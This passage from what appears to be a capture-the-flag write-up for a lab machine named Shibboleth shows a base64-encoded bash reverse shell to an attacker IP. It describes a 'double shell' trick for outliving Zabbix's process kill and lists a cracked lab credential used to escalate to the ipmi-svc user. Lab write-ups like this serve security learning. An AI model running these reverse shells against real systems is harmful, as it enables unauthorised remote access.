 ```console
└─╼$ echo 'bash -c "bash -i  >&/dev/tcp/10.10.14.14/1234  0>&1" ' | base64
YmFzaCAtYyAiYmFzaCAtaSAgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNC8xMjM0ICAwPiYxIiAK
```

2. trigger the payload to run the system command, but the shell flashes down quickly => the reverse shell is killed by zabbix when the Get_Value is finished => how to fix this? => [double shell] when getting the first shell, fast init another revshell (kill one shell, while the other is alive)

![image-20240204040750881](./Shibboleth.assets/image-20240204040750881.png)

## Privilege Escalation

### zabbix -> ipmi-svc

Thie cred: `Administrator:ilovepumkinpie1` -> can login to zabbix & cracked through impi -> is also the user ipmi-svc
